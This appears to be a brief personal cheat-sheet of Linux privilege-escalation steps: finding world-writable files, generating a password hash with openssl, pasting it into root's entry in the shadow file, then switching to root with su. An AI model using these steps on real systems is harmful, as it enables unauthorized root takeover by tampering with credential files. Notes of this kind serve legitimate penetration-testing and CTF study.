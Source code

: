
find / -not -type l -perm -o+w - find files that are world writable 

adding to shadow file
`openssl passwd -1 -salt abc password` - copy and paste into root on shadow
su -switch to root acount 